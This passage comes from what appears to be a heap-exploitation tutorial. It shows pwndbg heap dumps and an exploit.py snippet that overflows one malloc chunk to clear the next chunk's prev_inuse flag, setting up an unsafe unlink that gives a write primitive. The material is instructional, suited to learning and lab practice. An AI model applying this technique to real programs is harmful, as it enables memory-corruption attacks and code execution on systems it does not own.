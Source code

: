 
This time we need to use the dq command to inspect the heap because the corrupt size field will confuse the 'vis' command.

The 'mp_' struct is used by malloc to hold a small amount of its parameter data.

For now , we'll use its 'sbrk_base' member as a quick way to find the start of the defaukt heap where we'll print 38 quadwords of memory.


```
pwndbg> dq mp_.sbrk_base 38
0000555555757000     0000000000000000 0000000000000091
0000555555757010     4141414141414141 4141414141414141
0000555555757020     4141414141414141 4141414141414141
0000555555757030     4141414141414141 4141414141414141
0000555555757040     4141414141414141 4141414141414141
0000555555757050     4141414141414141 4141414141414141
0000555555757060     4141414141414141 4141414141414141
0000555555757070     4141414141414141 4141414141414141
0000555555757080     4141414141414141 4141414141414141
0000555555757090     4141414141414141 4141414141414141
00005555557570a0     0000000000000000 0000000000000000
00005555557570b0     0000000000000000 0000000000000000
00005555557570c0     0000000000000000 0000000000000000
00005555557570d0     0000000000000000 0000000000000000
00005555557570e0     0000000000000000 0000000000000000
00005555557570f0     0000000000000000 0000000000000000
0000555555757100     0000000000000000 0000000000000000
0000555555757110     0000000000000000 0000000000000000
0000555555757120     0000000000000000 0000000a414140b1
```

Even though we can corrupt the top chunk size field with this overflow, the House of Force techinque isn't viable here,
we just can't request enough memory or enough chunks. So lets consider how corrupting a "normal" chunk's size field might benefit us.

What would happen were to clear the second chunk's prev_inuse flag. We know that the prev_inuse flag is used by malloc to determine
 whater a previous chunk is a candidate for consolidation.

We also know that the consolidation process will involve unlinking the first chunk, but the first chunk isn't really free,
so it isn't  linked into a free list and therefore has no forward or backward pointers. However, this is our opportunity to provide them,
and remember an unsafe unlink operation on attacker-controlled pointers yields a reflected write primitive.

```
# exploit.py
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)
edit( chunk_A, b"Y"*0x88 + p64(0x90) )

pwndbg> vis

0x555555757000	0x0000000000000000	0x0000000000000091	................
0x555555757010	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757020	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757030	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757040	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757050	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757060	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757070	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757080	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757090	0x5959595959595959	0x0000000000000090	YYYYYYYY........
0x5555557570a0	0x0000000000000000	0x0000000000000000	................
```